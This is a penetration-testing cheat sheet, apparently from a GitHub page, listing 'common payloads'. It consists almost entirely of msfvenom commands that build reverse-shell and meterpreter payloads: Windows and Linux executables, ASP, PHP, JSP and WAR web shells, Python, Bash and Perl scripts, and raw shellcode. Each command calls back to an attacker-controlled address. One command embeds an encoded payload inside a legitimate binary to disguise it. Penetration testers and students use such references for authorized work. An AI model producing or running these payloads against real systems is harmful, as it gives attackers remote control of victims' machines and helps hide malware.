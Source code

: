### Common payloads

**Binaries**

    # Windows
    msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.30.68 LPORT=443 -f exe -o s.exe
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.68 LPORT=443 -f exe -o s.exe
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.68 LPORT=443 -f exe -o s.exe

    # Linux 
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.30.68 LPORT=443 -f elf -o mres
    msfvenom -p linux/x86/shell_reverse_tcp -f elf -o res LHOST='192.168.30.68' LPORT=443

    # injecting paylaod into existing binary
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.5 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

**Web payloads**

    # ASP
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.68 LPORT=443 -f asp -o s.asp

    # PHP
    echo "<?php $(msfvenom -e php/base64 -p php/meterpreter/reverse_tcp LHOST=192.168.30.68 LPORT=443 -f raw) ?>" > mrs443.php
    echo "<?php $(msfvenom -e php/base64 -p php/reverse_php LHOST=192.168.30.68 LPORT=443 -f raw) ?>" > rs443.php

    # JSP
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.30.68 LPORT=443 -f raw -o s.jsp

    # WAR
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.30.68 LPORT=443 -f war -o res.war

**Scripting payloads (cmd usage)**

    msfvenom -p cmd/unix/reverse_{python,bash,perl} LHOST=192.168.30.68 LPORT=443 -f raw -o s.{py,sh,pl}

**Shellcodes (for usage in custom written exploits)**

    # Linux
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.30.68 LPORT=443 -f <language>
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.30.68 LPORT=443 --platform linux -f c -a x86 -e generic/none
